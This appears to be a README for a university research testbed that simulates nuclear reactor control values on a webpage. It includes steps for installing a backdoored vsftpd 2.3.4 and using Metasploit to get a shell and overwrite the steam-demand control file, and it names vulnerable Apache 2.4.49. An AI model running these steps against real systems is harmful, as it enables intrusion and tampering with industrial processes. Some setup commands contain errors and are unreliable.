 # NuclearWebpage
This is a webpage for PCAG research under DR. Cole and Dr. Ibrahim

## Baseline values for control files
* feedwater - 540
* coolant pump - 8333
* steam demand - 540
* tavg - 547 
* control rods - 0

## Webpage setup
* `git clone https://github.com/JaredBen28/NuclearWebpage.git`
* Move all the files to the apache folder using `mv ./* /[target directory]`
* Change all the .txt and .csv files to be under the ownership of ubuntu not root `sudo chmod ubuntu *.txt` and `sudo chmod ubuntu *.csv`
  * This is so the model can be ran as a normal user not root or sudo
* Next we need to run the model and api for the webpage
```
pip -install -r ./flask/requirements.txt
python ./flask/api.py
python ./flask/model.py
```
* Open the main.js file and change the ip address on line 27 to the  ip of the api
* Everything should now be up and running

### Notes:
* If you want to run the api or model detached add an `&` to the end of the command
* When using a built-in apache installed from `apt` place all the files within `var/www/html`
* If you installed another version of apache, for a exploit, place the files with in the `htdocs` file or change the directory location within the `httd.conf` file

### Quickly change from repo
Because we used `mv` not `cp` when moving our files from the repo to webpage folder it makes our lives easy when adding any changes. First we need to pull the changes.

```
git pull
```

Next remove all the files that were changed from the webpage directory.

Then move the changed files to webpage directory. 

Ex: If you changed all the js files use `mv *.js /[target dir]` to move all of them at once. Wildcards are very helpful


---

## Vulnerable ftp service 
### Installation
```
git clone https://github.com/nikdubois/vsftpd-2.3.4-infected.git
sudo apt-get install build-essential
```

`nano Makefile` and change the Link to `LINK = -Wl,-s,-lcrypt`

```
make 
useradd nobody
mkdir /usr/share/empty
sudo cp vsftpd /usr/local/sbin/vsftpd
sudo cp vsftpd.8 /usr/local/man/man8
sudo cp vsftpd.conf.5 /usr/local/man/man5
sudo cp vsftpd.conf /etc

cd /
/usr/local/sbin/vsftpd &

mkdir /var/ftp/
useradd -d /var/ftp ftp
chown root:root /var/ftp
chmod og-w /var/ftp
```

`nano /etc/vsftp.conf` and change local_enable to `local_enable=YES`

### Exploitation
On another machine, preferably kali, open up a new terminal window
```
msfconsole
```

Once metasploit is running
```
search vsf
use 0
set RHOST [target ip addr]
exploit
```
At this point a reverse shell should have been created
```
cd home/ubuntu/Desktop
echo [new value] > steamDemand.txt
```
Warning do not use the `>>` pipe, it will append the new value in the steam demand file breaking the model

## Vulnerable apache service
You will need to download httd 2.4.49 from http://archive.apache.org/dist/httpd/ use the provided readMe for further instructions

I would recommend following the instructions from https://geekflare.com/apache-installation-troubleshooting/

If you need to install libpcre3 just run
```
sudo apt-get install libpcre3-dev libpcre3
```

Before installing a new version I would recommend removing the current apache on the machine
```
sudo apt remove apache2.*
sudo apt autoremove
sudo apt purge apache2
```
